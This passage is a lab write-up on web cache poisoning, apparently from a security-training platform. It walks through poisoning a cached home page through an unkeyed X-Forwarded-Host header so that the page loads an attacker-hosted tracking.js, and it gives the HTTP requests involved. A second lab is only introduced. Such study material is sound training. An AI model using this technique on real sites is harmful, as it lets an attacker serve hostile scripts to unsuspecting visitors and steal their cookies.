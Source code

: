 ## Lab - 1: Web cache poisoning with an unkeyed header (P)

- This lab is vulnerable to web cache poisoning because it handles input from an unkeyed header in an unsafe way. An unsuspecting user regularly visits the site's home page. To solve this lab, poison the cache with a response that executes alert(document.cookie) in the visitor's browser.

- send the `/` request to Burp Repeater
- send

```
GET /?abc=123 HTTP/1.1
X-Forwarded-Host: test.com
...
```

- Response is

```
Age: 0
X-Cache: miss
```

- send second time

```
Age: 5
X-Cache: hit
```

- and in response body, find the test.com

```html
<script
  type="text/javascript"
  src="//test.com/resources/js/tracking.js"
></script>
```

- go to the exploit server and in the File, fill with
  `/resources/js/tracking.js` and in the body `alert(document.domain)`

- change the `X-Forwarded-Host` to exploit server url without https

- send the resquest and see the response like above
- change the GET endpoint to `/` home page and send the request

---

## Lab - 2: Web cache poisoning with an unkeyed cookie (P)

- This lab is vulnerable to web cache poisoning because cookies aren't included in the cache key. An unsuspecting user regularly visits the site's home page. To solve this lab, poison the cache with a response that executes alert(1) in the visitor's browser.
